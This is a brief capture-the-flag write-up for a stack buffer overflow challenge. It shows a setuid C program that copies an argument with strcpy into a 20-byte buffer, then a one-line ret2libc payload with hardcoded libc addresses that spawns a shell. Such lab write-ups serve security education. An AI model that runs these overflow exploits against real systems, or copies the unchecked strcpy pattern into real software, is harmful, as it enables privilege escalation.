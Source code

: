 ```yaml
---
description: 'Note : A JOURNEY TO GAIN KNOWLEDGE'
---
```


# 🐧 ELF x86 - Stack buffer overflow basic 6

Code chall:

```c
#include <stdio.h>
#include <string.h>
#include <sys/types.h>
#include <unistd.h>
 
int main (int argc, char ** argv){
    char message[20];
 
    if (argc != 2){
        printf ("Usage: %s <message>\n", argv[0]);
        return -1;
    }
 
    setreuid(geteuid(), geteuid());
    strcpy (message, argv[1]);
    printf ("Your message: %s\n", message);
    return 0;
}
```

```python
./ch33 `python -c "print 'A'*20 + '1'*12 + '\x10\x83\xe6\xb7' + 'AAAA' + '\x4c\xad\xf8\xb7'"`
```

<figure><img src="../../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

